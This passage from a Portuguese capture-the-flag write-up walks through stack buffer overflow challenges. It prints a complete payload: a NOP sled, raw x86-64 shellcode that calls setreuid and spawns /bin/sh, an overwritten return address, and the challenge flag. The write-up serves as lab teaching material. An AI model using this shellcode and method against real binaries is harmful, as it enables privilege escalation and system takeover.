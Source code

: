 <img width="592" height="67" alt="image" src="https://github.com/user-attachments/assets/e6c34d11-ddf6-4e0d-affe-8ada6963c200" />

O próximo comando que irá mudar o nosso id é o seguinte: `pwn shellcraft -f d amd64.linux.setreuid 1002`.

Com isso, podemos adicioná-lo ao nosso código e procurar o endereço de retorno do nosso código shell no gdb.

O payload que irei usar é o seguinte: `| NOPs 90 | Shellcode 54 | random characters 8 | return address 6|` (esse payload foi encontrado na internet) e depois disso, verificarei o registro para ver onde o código shell começa.

`run $(python -c "print('\x90' * 76 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05' + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A' * 22 + 'B' * 6)")

x/100x $rsp-200`

A seguinte imagem mostra onde os NOPs começam, o código shell e endereço de retorno. Além disso, usaremos 0x7fffffffe298 como endereço de retorno. Convertendo para uma strign hexadecimal, temos: '\x98\xe2\xff\xff\xff\x7f'.

<img width="503" height="407" alt="image" src="https://github.com/user-attachments/assets/fca7110d-507d-4166-85f9-e4b45f8c8498" />

Por fim, podemos adicionar isso, sair do gdb e executar o binário com nosso payload: `python -c "print('\x90' * 76 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05' + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A' * 22 + '\x98\xe2\xff\xff\xff\x7f')"`.

Depois de acessar o user2, basta ler o arquivo com o comando: `cat secret.txt`.

>`omgyoudidthissocool!!`

## Buffer Overflow 2

**Objetivo**

* Use o mesmo método que foi usado anteriormente para ler o conteúdo do aquivo secreto.

**Solução**

Podemos usar o mesmo método para resolver esse desafio, porém será necessário modificar um pouco o código shell.

Ao observar o binário, é possível ver que o nosso buffer agora tem 154 bytes de comprimento e é preenchido com a palavra `.doggo`

<img width="843" height="431" alt="image" src="https://github.com/user-attachments/assets/4dd8887d-3893-401a-ae93-31e3c09ed01d" />

Seguindo o mesmo passo de verificar qual o tamanho necessário para o nosso payload usando o gdb temos que:

<img width="913" height="522" alt="image" src="https://github.com/user-attachments/assets/2904eb37-bcae-4f19-a259-cf4bc9c740c5" />

Fazendo esse teste com 168 e 169 bytes, podemos ver que o nosso payload deverá ter 169 bytes dessa vez.

